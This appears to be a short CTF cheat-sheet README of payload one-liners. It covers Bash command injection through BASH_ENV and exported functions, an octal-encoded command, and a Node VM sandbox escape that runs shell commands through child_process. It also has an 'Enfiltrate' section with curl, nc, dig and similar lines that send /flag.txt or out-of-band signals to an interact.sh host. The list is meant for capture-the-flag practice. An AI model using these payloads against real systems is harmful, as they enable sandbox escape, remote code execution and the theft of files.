 # magic_strings
Handy bits for CTFs and life

### Bash 

#### ENV Vars
    BASH_ENV='$(id 1>&2)' bash -c 'echo hello'

    env $'BASH_FUNC_myfunc%%=() { id; }' bash -c 'myfunc'

#### Encoding

    $'\151\144'

### NodeJS

#### Node VM

Escape Node VM Sandbox

    output=this.constructor.constructor("return this.process")().mainModule.require("child_process").execSync("id").toString()

### Enfiltrate

    curl -T /flag.txt xxxx.interct.sh
    ping here.xxx.interact.sh
    nc nchere.xxx.interact.sh 80
    dig dighere.xxx.interact.sh
    git clone githere.xxx.interact.sh
    

## Resources

- [Payloads All The Things]( https://github.com/swisskyrepo/PayloadsAllTheThings/ )
